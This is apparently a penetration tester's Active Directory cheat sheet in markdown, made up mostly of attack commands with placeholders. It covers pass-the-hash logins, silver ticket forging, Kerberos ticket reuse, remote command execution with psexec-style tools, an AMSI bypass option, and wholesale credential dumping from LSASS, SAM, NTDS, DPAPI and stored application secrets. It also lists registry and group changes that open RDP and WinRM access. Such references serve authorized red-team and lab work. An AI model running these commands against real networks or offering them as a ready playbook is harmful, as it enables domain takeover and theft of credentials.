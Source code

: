 # Active Directory
*   [Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/)
*   [KB Realm Configuration](https://mayfly277.github.io/posts/GOADv2-pwning_part1/)
    *   `addhost [IP] [DOMAIN]` → `addhost [IP] [DC_HOSTNAME]` → Repeat for every domain
    *   `krbconf()     [DOMAIN] [DC_NETBIOS_NAME]`                     → [Add Multiple Domains](https://mayfly277.github.io/posts/GOADv2-pwning_part1/)
*   Authentication
    *   Password
        *   NXC           → `-u [USER] -p [PASS] -d [DOMAIN] [--local-auth]` → Add `-k` if `STATUS_NOT_SUPPORTED` 
        *   Impacket → `[DOMAIN]/[USER]:[PASS]@[IP]`
    *   User Hashes
        *   NXC                                   → `-u [USER] -H [HASH] -d [DOMAIN] [--local-auth]` → Add `-k` if `STATUS_NOT_SUPPORTED` 
        *   Impacket                         → `[DOMAIN]/[USER]@[IP] -hashes [HASH]`
        *   Password Conversion  → `iconv -f ASCII -t UTF-16LE <(printf "[PASS]") | openssl dgst -md4`
        *   Cracking                          → `hashcat -m 1000`
    *   Service Hashes
        *   `ticketer.py -nthash [SERVICE_HASH] -domain-sid [SID] -domain [DOMAIN] -dc-ip [DC_IP] -spn [SPN] Administrator`
        *   Get SID                            → `nxc ldap [DC_IP] --kdcHost [DC_FQDN] -k [AUTH_STRING] --get-sid`
        *   Password Conversion  → `iconv -f ASCII -t UTF-16LE <(printf "[PASS]") | openssl dgst -md4`
        *   Cracking                          → `hashcat -m 1000`
        *   Export Ticket                  → Impersonate Service Administrator + [SPN Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#abusing-service-tickets)
    *   KB Tickets
        *   Load Ticket              → `export KRB5CCNAME=[TICKET.ccache]`
        *   NXC                            → `--kdcHost [DC_FQDN] --use-kcache -d [DOMAIN] [--local-auth]` 
        *   Impacket                  → `[DOMAIN]/[USER]@[IP] -k -no-pass`
        *   Win/Lin Convert     → `ticketConverter.py [KIRBI/CCACHE_IN] [KIRBI/CCACHE_OUT]`
        *   Ticket Request       → `getTGT.py [AUTH_STRING]`
    *   RDP
        *   `xfreerdp /u:[USER] /p:'[PASS]' /v:[IP] [/pth:HASH] [--local-auth] +clipboard` 
        *   Enable NTLM          → `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
        *   RDP Group              → `net localgroup "Remote Desktop Users" [USER] /add`
    *   WinRM
        *   `evil-winrm -i [IP] -u [USER] [-p/H] [PASS/HASH]`  → Check `menu` + Commands
        *   CCACHE Auth    → `-i [DC_FQDN] -r [DOMAIN]`
        *   WinRM Group    → `net localgroup "Remote Management Users" [USER] /add` 
*   Local Admin
    *   Account Check
        *   `nxc [service] [IP] [ AUTH_STRING] [--local-auth]` → Check if `(Pwn3d!)` appears
    *   SMB RCE
        *   `nxc [IP] [AUTH_STRING] -x [CMD]`
        *   `nxc [IP] [AUTH_STRING] -X [PS_COMMAND] [--amsi-bypass /PATH/TO/PAYLOAD]`
    *   Hash Dumping
        *   `nxc smb [IP] [AUTH_STRING] -M lsassy -M nanodump -M ntdsutil`
        *   `nxc smb [IP] [AUTH_STRING] --lsa --dpapi --sam --ntds`
        *   `nxc smb [IP] [AUTH_STRING] --sccm [disk/wmi]`
        *   `nxc smb [IP] [AUTH_STRING] -M wifi -M keepass_discover -M veeam -M winscp -M vnc -M mremoteng -M rdcman -M teams_localdb -M security-questions`
    *   SMB / RPC Session
        *   `psexec.py   [AUTH_STRING] cmd.exe`
        *   `smbexec.py  [AUTH_STRING]`
        *   `atexec.py   [AUTH_STRING]`
        *   `wmiexec.py  [AUTH_STRING]`
        *   `dcomexec.py [AUTH_STRING] -object MMC20`
    *   Trust Escalations (Domain Admin)
        *   `nxc ldap [DC_IP] [AUTH_STRING] -M enum_trusts`